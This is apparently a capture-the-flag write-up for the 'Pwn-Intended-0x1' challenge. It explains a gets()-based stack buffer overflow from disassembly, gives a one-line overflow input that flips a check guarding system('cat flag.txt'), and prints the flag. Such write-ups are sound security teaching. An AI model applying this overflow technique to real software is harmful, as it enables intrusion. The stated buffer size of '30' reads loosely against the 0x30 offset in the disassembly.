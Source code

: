 ```yaml
---
layout: post
title: "Pwn-Intended-0x1"
author: "AnandSaminathan"
tags: ['Pwn']
---
```


**Files**
- [pwn-intended-0x1]({{site.baseurl}}/assets/Pwn-Intended-0x1/pwn-intended-0x1)

## Solution

This is exactly same as [coffer-overflow-0](https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-0.html) from redpwn-2020. 
Have to overwrite a variable with any value (other than zero).

```
   	mov    rax,QWORD PTR [rip+0x2ef4]        
   	mov    esi,0x0
   	mov    rdi,rax
   	call   0x401040 <setbuf@plt>
   	mov    rax,QWORD PTR [rip+0x2ef0]        
   	mov    esi,0x0
   	mov    rdi,rax
   	call   0x401040 <setbuf@plt>
   	mov    rax,QWORD PTR [rip+0x2eec]        
   	mov    esi,0x0
   	mov    rdi,rax
   	call   0x401040 <setbuf@plt>
   	lea    rdi,[rip+0xe60]        
   	call   0x401030 <puts@plt>
   	lea    rax,[rbp-0x30]
   	mov    rdi,rax
   	mov    eax,0x0
   	call   0x401060 <gets@plt>
   	lea    rdi,[rip+0xe5f]        
   	call   0x401030 <puts@plt>
   	cmp    DWORD PTR [rbp-0x4],0x0
   	je     0x4011ed <main+151>
   	lea    rdi,[rip+0xe59]        
   	call   0x401030 <puts@plt>
   	lea    rdi,[rip+0xe94]        
   	mov    eax,0x0
   	call   0x401050 <system@plt> # system("cat flag.txt")
   	mov    eax,0x0
```

The buffer size is 30, so any input of size >= 48 (multiple of 16) should print the flag. This worked:

```shell
python2 -c "print 'A'*48" | ./pwn-intended-0x1 
```

## Flag

```
csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}
```

